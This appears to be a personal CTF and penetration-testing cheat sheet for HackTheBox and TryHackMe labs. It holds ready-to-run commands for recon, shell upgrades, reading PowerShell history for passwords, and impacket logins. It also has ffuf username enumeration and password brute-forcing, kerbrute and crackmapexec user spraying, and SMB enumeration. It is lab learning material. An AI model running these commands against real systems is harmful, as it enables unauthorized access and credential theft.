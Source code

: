 [[HackTheBox]]
[[Tryhackme]]
[[Linux CTF]]
[[Windows CTF]]
## Important links

Gtfobins: [https://gtfobins.github.io/gtfobins/vi/](https://gtfobins.github.io/gtfobins/vi/)

Reverse shells: [https://www.revshells.com/](https://www.revshells.com/)

Crack hashes : [https://crackstation.net/](https://crackstation.net/)

Code execution **: [https://github.com/payloadbox/command-injection-payload-list**](https://github.com/payloadbox/command-injection-payload-list**)

**Special Search engines:**

- [https://viewdns.info/](https://viewdns.info/)
- [https://threatintelligenceplatform.com/](https://threatintelligenceplatform.com/)
- [https://search.censys.io/](https://search.censys.io/)
- [https://www.shodan.io/](https://www.shodan.io/) (Can use it in command line too after configuring API key)

```jsx
//To get my internet facing IP address
shodan myip
```

## Recon

Built in commands:

```jsx
whois [domain]
nslookup [domain]
dig [domain]
host [domain]
traceroute //tracert on windows
```

We can use the special search engines : viewdns, censys, shodan,…

We can use **recon-ng** for OSINT:

```jsx
recon-ng
	workspaces create [workspace]
	
recon-ng -w [workspace]
	db insert domains
	marketplace search [thing]
	marketplace install [module]
```

## Search for vulnerabilities

```jsx
//finds vulnerabilities on the thing
searchsploit thething

msfconsole
	search thething
```

## Upgrade an unstable Linux Shell

```jsx
python3 -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'

// CTRL + Z

stty raw -echo; fg
export TERM=xterm
```

## Internal Scan

To list what services are listening on what ports

(used to identify running services on target machine after we get initial foothold)

```jsx
//remember to run without grep first to see all
netstat -ano | grep [Port Number]
```

## Get a windows Shell

- Use **impacket** to connect to certain services in windows such as **ms_sql**

```jsx
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
```

## Windows Privesc

**MSSQL cheatsheet :** [https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

- check the file **ConsoleHost_history.txt** equivalent of **.bash_history in linux**

This file may contain passwords

```jsx
//It is located in :
C:\\Users\\sql_svc\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadline\\
```

Then we can use **impacket** again to ge a new shell but as and admin this time if we found the pass in **ConsoleHost_history.txt**

```jsx
python3 psexec.py administrator@{TARGET_IP}
```

- Use **winPEASx64.exe**

## Webapp Penetration testing

**Username enumeration:**

```jsx
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt \\
-X POST -d "username=FUZZ&email=x&password=x&cpassword=x" \\
-H "Content-Type: application/x-www-form-urlencoded" \\
-u <http://10.10.80.107/customers/signup> -mr "username already exists"

```

**Password Bruteforce**

```jsx
ffuf -w valid_usernames.txt:W1,\\
/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 \\
-X POST \\
-d "username=W1&password=W2" \\
-H "Content-Type: application/x-www-form-urlencoded" \\
-u <http://10.10.80.107/customers/login> -fc 200
```

## Pivoting

[Pivoting](https://www.notion.so/Pivoting-13856b659e5080039e5aec4e0880e49d?pvs=21)

## Windows Active Directory

If it’s a domain controller try LDAP an example machine i tried is **Cicada** on **Hackthebox**

### **LDAP:**

```jsx
ldapsearch -x -H ldap://$target_hostname -b $domain_component
```

![{38787CE5-CB62-418C-B098-2E401CE25F96}.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/043808d7-4382-42d4-89b8-b679a91d47a7/13ec450d-e10a-41f6-91b1-9ce711d26119/38787CE5-CB62-418C-B098-2E401CE25F96.png)

It is configured but i need credentials to access in this example

### **SMB:**

```bash
smbclient -N -L //$target_hostname

#Login with credentials
smbclient -U login%password -L //10.10.11.42

smbclient -N //$target_hostname/myshare
	ls, get, cd...

#Get a share with credentials
smbclient -U 'login%password' //10.10.11.35/share
```

- enum4linux: A tool designed for gathering information from Windows and Samba (SMB) systems, we can use it to enumerate users too

```bash
enum4linux -a -u 'username' -p 'password' 10.10.10.10

#without a user and a password
enum4linux -a infiltrator.htb
```

### **Kerbrute:**

Duplicate and Save a List of Usernames to Spray at the KDC

```bash
cat /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt | tr '[:upper:]' '[:lower:]' | sort -u > kerberos_users.txt
```

Use Kerbrute to Enumerate Valid Usernames

```bash
kerbrute userenum -d domain.tld --dc dc-ip-here -t 100 -o kerbrute.log ./kerberos_users.txt
```

### **crackmapexec:** command to enumerate users

- enum4linux enumerates users too but i think we need credentials to use it

```bash
crackmapexec smb 10.10.10.10 -d domain.local -u 'guest' -p '' --users

#This command attempts to connect to the target SMB server using the guest account
#(with no password) and, if successful, retrieves a list of all user accounts within
#the specified domain.
```

```bash
#enumerate users
crackmapexec smb 10.10.10.10 -d domain.local -u 'guest' -p '' --rid-brute
```

The `--rid-brute` option uses Relative Identifier (RID) brute-forcing, iterating through RIDs in the domain to gather information about user and group accounts. Commonly used RIDs are standardized (e.g., `500` for `Administrator`, `501` for `Guest`), and RID brute-forcing takes advantage of this by querying these values to identify accounts.

```bash
crackmapexec smb 10.10.10.10 -d domain.local -u users.txt -p pass.txt
```

feroxbuster

[https://github.com/Mag1cByt3s/MagicRecon](https://github.com/Mag1cByt3s/MagicRecon)

[https://github.com/Tib3rius/AutoRecon](https://github.com/Tib3rius/AutoRecon)

[https://github.com/gokulapap/Reconator](https://github.com/gokulapap/Reconator)

[https://github.com/sujayadkesar/auto-rec0n](https://github.com/sujayadkesar/auto-rec0n)